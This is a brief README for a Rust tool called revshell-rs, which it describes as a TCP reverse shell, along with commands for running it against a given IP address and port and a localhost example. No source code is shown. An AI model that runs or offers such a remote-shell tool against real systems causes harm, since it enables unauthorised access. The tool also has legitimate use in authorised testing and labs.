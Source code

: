 # revshell-rs
A TCP reverse shell made in rust

## Usage

# With `cargo`:
```
cargo run <ip address> <port>
```

# Manual execution
```
./revshell <ip address> <port>
```

## Example
```
./revshell 127.0.0.1 4242
```
